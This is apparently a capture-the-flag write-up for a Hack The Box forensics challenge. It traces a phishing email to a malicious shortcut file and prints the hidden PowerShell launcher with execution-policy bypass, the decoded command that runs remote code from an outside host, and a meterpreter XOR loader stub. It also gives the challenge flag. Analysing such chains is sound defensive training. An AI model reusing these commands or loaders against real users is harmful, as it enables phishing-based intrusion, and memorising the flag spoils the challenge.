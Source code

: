 # 🕵️ Forensics Challenge

## 🏷️ Name: A new Hire

## 🔥 Difficulty: Very Easy

## 🎯 Points: 900

## 📜 Challenge Description: 
> The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

--- 
## 📂 Provided Files:
- **Filename:** `forensics_a_new_hire.zip`

- **SHA-256 Hash:** `5c0da1869ffaac3503b0d63302c4739ad7e5ea731f24170ddab6180801dc1fa6`

--- 

# 🚀 Methodology

### 🔎 1️⃣ Understanding the Evidence


The provided file is an `.eml` email file. The email essentially recommends Lord Malakar for a role at a company. Also, was this email generated with chat GPT? lol:

> "We believe Malakar’s skills and experience could be a great fit for your team, and he is eager to discuss how he can contribute to [Company Name]’s continued success."

We’re pointed to a URL:

```
storage.microsoftcloudservices.com:[PORT]/index.php
```


However, that site was blocked on my browser. Inspecting the page source revealed a more direct path:

![alt text](images/02_inspect_resume.png)

```
[HOST]:[PORT]/3fe1690d955e8fd2a0b282501570e1f4/resumes/
```


There, we find a link to `Resume.pdf .lnk`. 

![alt text](images/03_resumes_index.png)


And it contains a powershell execution code:

![alt text](images/04_resume_contents.png)

```powershell
powershell.exe -W Hidden -nop -ep bypass -NoExit -E <BASE64_STRING>
```

---

## 🛠️ 2️⃣ Decoding the Payload

Decoding it reveals this:

```powershell
[System.Diagnostics.Process]::Start('msedge', 'http://storage.microsoftcloudservices.com:47912/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf');\\storage.microsoftcloudservices.com@47912\3fe1690d955e8fd2a0b282501570e1f4\python312\python.exe \\storage.microsoftcloudservices.com@47912\3fe1690d955e8fd2a0b282501570e1f4\configs\client.py
```

To make things easier, I used a Python script to download all the mentioned files:

```python

import requests
import os

urls = [
    'http://storage.microsoftcloudservices.com:47912/3fe1690d955e8fd2a0b282501570e1f4/resumesS/resume_official.pdf',
    'http://storage.microsoftcloudservices.com@47912/3fe1690d955e8fd2a0b282501570e1f4/python312/python.exe',
    'http://storage.microsoftcloudservices.com@47912/3fe1690d955e8fd2a0b282501570e1f4/configs/client.py'
]

os.makedirs('files', exist_ok=True)

for url in urls:
    file_name = url.split('/')[-1]
    url = url.replace('@', ':')
    response = requests.get(url)
    with open(f'files/{file_name}', 'wb') as of:
        of.write(response.content)
```

---

## 🔢 3️⃣ Analyzing the Files

Among the downloads, `resume_official.pdf` seemed like Lord Malakar's actual resume. The more interesting file is `client.py`, which includes a meterpreter payload:

```python
import base64

key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
data = base64.b64decode("BLABLABLA")

meterpreter_data = bytes([data[i] ^ key[i % len(key)] for i in range(len(data))])
exec(__import__('zlib').decompress(meterpreter_data)[0])
```

The code contains a small typo: it should be `base64.b64decode` instead of `base64.decode`. Also, strings beginning with `SFR` in base64 often translate to flags in HTB !.

---

**🚩 Final Flag:** `HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}`




